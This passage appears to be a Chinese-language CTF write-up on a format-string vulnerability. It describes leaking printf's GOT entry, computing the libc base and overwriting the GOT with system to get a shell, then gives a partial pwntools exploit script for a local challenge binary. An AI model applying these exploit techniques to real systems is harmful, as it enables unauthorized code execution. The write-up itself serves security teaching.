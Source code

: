 > 注：这里由于是leak下来的二进制，没有偏移，我们需要手动rebase。
>
> ![rebase](https://moxiaoxi.info/img/post/Fmtstr/rebase.png)

得到printf@plt地址：

![printf](https://moxiaoxi.info/img/post/Fmtstr/printf.png)

接下来就是覆盖got表并获取shell的流程是（以覆盖printf的got表为例）：

1. 确定printf的plt地址
2. 通过泄露plt表中的指令内容确定对应的got表地址
3. 通过泄露的got表地址泄露printf函数的地址
4. 通过泄露的printf的函数地址确定libc基址，从而获得system地址
5. 使用格式化字符串的任意写功能将printf的got表中的地址修改为system的地址
6. send字符串“/bin/sh;”，那么在调用printf(“/bin/sh;”)的时候实际上调用的是system(“/bin/sh;”)，从而成功获取shell

### EXP

#### 本地EXP

PS: 考虑万一做不出来，就给Binary和libc，降低题目难度。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'
debug = 1
if debug:
	p = process('./leakmemory')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p.recv()
p.sendline('moxiaoxi')
p.recv()

elf = ELF('./leakmemory')

plt_printf = elf.symbols['printf']

got_printf = elf.got['printf']


libc_system = libc.symbols['system']
libc_printf = libc.symbols['printf']


# 获取printf的libc地址
leak_payload = "%8$s" + p32(got_printf)

p.sendline(leak_payload)
info = p.recv()
data = info[23:27]
print(data.encode('hex'))

# 计算system的libc地址
printf_addr = u32(data)
libc_base = printf_addr - libc_printf   

system_addr = libc_base + libc_system

# 生成payload
payload = fmtstr_payload(7, {got_printf: system_addr})
```